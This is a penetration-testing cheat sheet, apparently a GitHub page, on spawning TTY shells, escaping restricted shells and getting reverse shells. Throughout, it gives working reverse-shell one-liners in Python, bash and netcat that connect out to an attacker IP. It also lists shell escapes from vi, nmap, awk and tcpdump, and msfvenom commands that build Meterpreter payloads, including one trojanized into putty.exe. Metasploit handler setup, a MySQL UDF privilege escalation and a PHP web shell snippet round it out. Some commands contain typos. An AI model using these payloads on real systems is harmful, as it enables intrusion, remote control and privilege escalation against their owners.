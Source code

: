 Spawning a TTY Shell - Break out of Jail or limited shell
-----
**PYTHON**

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()

Plesse check below:    
PS1='\e[33;1m\u@\h: \e[31m\W\e[0m\$

**BASH**

bash -i >& /dev/tcp/$attacker_IP/4444 0>&1  // from the victim to your IP. nc -lvvp should be listening
echo os.system('/bin/bash')
OR     
`/bin/sh -i`
OR        
`:! /bin/bash`
OR        
`':!bash':`     //from vim
OR        
`:!bash`        // from vi
OR        
`!sh`           //from nmap

Plesse check below:    

`:set shell=/bin/bash:shell`

echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root      //from tcpdump

open vi or vim and type:   //from vi
:set shell=/bin/bash
Next, type and execute
:shell

awk 'BEGIN {system("/bin/sh")}'

find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

-----
 After you use the 'more', 'less', or 'man' command with a file, type '!' followed by a command. For instance, try the following once inside the file. // more, less, man commands

echo "evil script code" | tee script.sh      // tee -a to append at the end of the file

 == Files Executed in Unrestricted Mode? ==

Some restricted shells will start by running some files in an unrestricted mode before the restricted shell is applied. If your .bash_profile is executed in an unrestricted mode and it's editable, you'll be able to execute code and commands as an unrestricted user.

**OTHERS**

perl -e 'exec "/bin/sh";'   
perl: exec "/bin/sh";   
ruby: exec "/bin/sh"   
lua: os.execute('/bin/sh')   
irb(main:001:0> exec "/bin/sh"    
lua: `os.execute('/bin/sh')`     
`exec "/bin/sh"`     // from IRB   
select sys_exec('usermod -a -G admin john'); // from mysql command prompt. Then use sudo su and inser john's password.    

First things first, for the MySQL UDF to work - MySQL has to be running with root privileges, so let’s check.   
john@Kioptrix4:/var/www$ ls -la /usr/lib/lib_mysqludf_sys.so   
-rw-rw-rw- 1 root root 12896 2012-02-04 10:08 /usr/lib/lib_mysqludf_sys.so  


**== Upgrading half shells to fully interactive TTYs without closing nc session. ==**

python -c 'import pty; pty.spawn("/bin/bash")'

background remote shell with Ctrl+Z    // on victim machine

stty -a | grep rows    //on attacking machine  
speed 38400 baud; rows 55; columns 205; line = 0;  
echo $TERM     // on attacking machine  
sty raw echo   // attacking machine  
fg             // attacking machine  
reset          // attacking machine  
export TERM=xterm-256color //on victim machine  
export SHELL=BASH          //on victim machine  
stty rows 55 columns 205   //on victim machine. See stty -a  

**SHELLS:**

MSFVENOM
    
 List payloads
 msfvenom -l
 
            == Binaries ==
 Linux
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.31.139 LPORT=8443 -f elf-so > shell.so
    
 Windows
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
 
 msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=10.11.0.159 -e x86/shikata_ga_nai -i 5 -b "\x00" -f exe -o putty1.exe

 *Linux Based Shellcode* - generic
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

*Windows Based Shellcode* - generic
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
 
           == Web payloads ==
  
PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.159 LPORT=53 R > cmd.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

            == Scripting Payloads ==

Python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

BASH
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

          == HANDLERS ==
 Setup metasploit to receive shells easily.
 
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z

mssf > use exploit/multi/handler 
msf exploit(handler) > setg PAYLOAD java/jsp_shell_reverse_tcp
PAYLOAD => java/jsp_shell_reverse_tcp
set LHOST 10.11.0.159
set LPORT 4343
LPORT => 4343
msetg SHELL cmd.exe
exploit -j -z

-----
SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter


**REVERSE SHELLS**  
 -----
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.128",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 
 
 Pen test monkey PHP reverse shell  
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

-   Perl Reverse Shell  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](https://github.com/b374k/b374k)

-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell 
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
  
-   PHP shell. Execute some PHP code on a HTML/PHP page ==

<?php
$output = shell_exec('ls ../../');
echo "<pre>$output</pre>";
?>

**TIPS**:
-----
- run 'env' command to see PATH and how profile is configured.
- list the PATH directories with 'echo /some/folder/*' or just use ls.
- see what commands you can use from above and iterate through other accessible folders

Change PATH or SHELL Environment Variables
-----
'export -p' to see the exported variables in the shell.
    -x - is execute only
    -w - is write too <<<<<<
   
If the SHELL variable is writeable, you can simply set it to your shell of choice (i.e. sh, bash, ksh, etc...).
If the PATH variable is writeable, then you'll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.
   
**COPY FILES**
-----
ls -alh /some/folder from $PATH and see if you can write in there
If yes, then simply copy commands into the PATH that have known shell escapes. OR write your script and write it here.
   
   - copy files to your home directory and try to execute.
   -- if not able to copy, mount devices or filesystems
   -- copy using SCP, FTP, rsync

Find other writable directories and upload your script there.
Create a symbolic link in a directory where you have write access.
